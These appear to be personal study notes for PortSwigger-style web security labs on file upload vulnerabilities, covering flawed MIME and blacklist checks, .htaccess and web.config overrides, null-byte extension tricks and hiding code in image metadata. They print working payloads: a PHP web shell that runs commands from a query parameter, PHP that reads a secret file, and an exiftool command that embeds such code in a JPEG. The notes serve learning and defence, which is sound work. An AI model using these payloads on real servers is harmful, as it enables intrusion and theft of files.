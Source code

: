 - upload files without sufficient validation
	- basic image can execute script
- websites now are more dynamic and the path of a request has no direct relationship to the filesystem (actual path vs URL path can be different - example.com/images == /var/www/images)
1. if file type is non-executable (image or static page, server may just send the file's contents to the client in an HTTP response)
2. if file is executable (php file etc.), and the server is configured to execute files of this type, it will assign variables based on headers and parameters in the HTTP request before running the script
	- resulting output may then be sent to the client in an HTTP response
3. if the file type is executable but the server is not configured to execute the file, it will respond with an error or output the contents of the file may be served as plaintext
- look at `Content-Type` header and `MIME` to the type of file being served.
	`<?php echo system($_GET['command']); ?>` : this allows a system command to be passed into the URL via a query parameter
	`GET /example/exploit.php?command=id HTTP/1.1`
	`<?php echo file_get_contents('/home/carlos/secret');?>` : retrieve contents of the `secret` file
Lab: [[Remote Code Execution Via Web Shell Upload]]
# Flawed Validation Of File Uploads
## Flawed File Type Validation 
- the following `Content-Type` are used typically to send data in a `POST` request:
	- `application/x-www-form-url-encoded` : sends simple text like name or address
	- `multipart/form-data` : sending large amounts of binary data (images etc.)
- if no further validation to check if the actual contents of the file is the given `MIME` type, can exploit
Lab: [[Web Shell Upload Via Content-Type Restriction Bypass]]
## Preventing File Execution In User Accessible Directories
- second line of defense (first being stopping dangerous file types from being uploaded) is to stop the server from executing any scripts that slip through the net
	- servers generally run scripts whose `MIME` type they have been specifically configured to execute
		- otherwise, error message or content in plaintext returned:
			```
			GET /static/exploit.php?command=id HTTP/1.1
			    Host: normal-website.com
			
			    HTTP/1.1 200 OK
			    Content-Type: text/plain
			    Content-Length: 39
			
			    <?php echo system($_GET['command']); ?>
			```
- web servers often use `filename` field in `multipart/form-data` to determine the name and location where the file should be saved
Lab: [[Web Shell Upload Via Path Traversal]]
## Insufficient Blacklisting Of Dangerous File Types
- blacklisting file types (eg. php) can be overcome by using alternative file extensions like `.php5` or `.shtml`
### Overriding Server Configuration 
- servers won't execute files unless they are configured to do so
- for Apache servers to execute files, the following must be added to `/etc/apache2/apache2.conf` file:
	```
	LoadModule php_module /usr/lib/apache2/modules/libphp.so
	AddType application/x-httpd-php .php
	```
- this allows mapping of an executable to the correct `MIME` type
	- Note*: only add `LoadModule php_module /usr/lib/apache2/modules/libphp.so` when `mod_php` is not in the server
	- DO NOT INDENT DIRECTIVES
- servers allow developers to create special configuration files within individual directories in order to override or add 1 or more global settings
	- can upload a `.htaccess` file to a directory to allow for a certain extension and then upload the exploit into the same directory
	- Apache servers will load a directory-specific configuration from a file call `.htaccess` if one is present
- developers can make such files on IIS servers using `web.config` file. this can include the following:
	```
	<staticContent>
	    <mimeMap fileExtension=".json" mimeType="application/json" />
	    </staticContent>
	```
- normally not allowed to access such files via HTTP requests. 
	- however, there can be servers that fail to stop you from uploading malicious config files
		- even if file server is blacklisted, can override the config file to trick the server into mapping arbitrary file extension to an executable MIME type that is allowed thanks to your script
# Obfuscation of File Extension
- try hiding it in different ways, such as :
	`exploit.php%00.jpg`
# Hiding Scripts in Images
- use `exiftool` to hide scripts in images in order to bypass content dimensions checking
- How to hide: https://shouts.dev/articles/hide-payload-in-image-file-using-exiftool
	```
	┌──(roshan㉿roshan)-[~/BSCP/file_upload]
	└─$ exiftool -comment="<?php echo '123 '.file_get_contents('/home/carlos/secret').' 123 ';?>" image.jpg
	    1 image files updated
	```
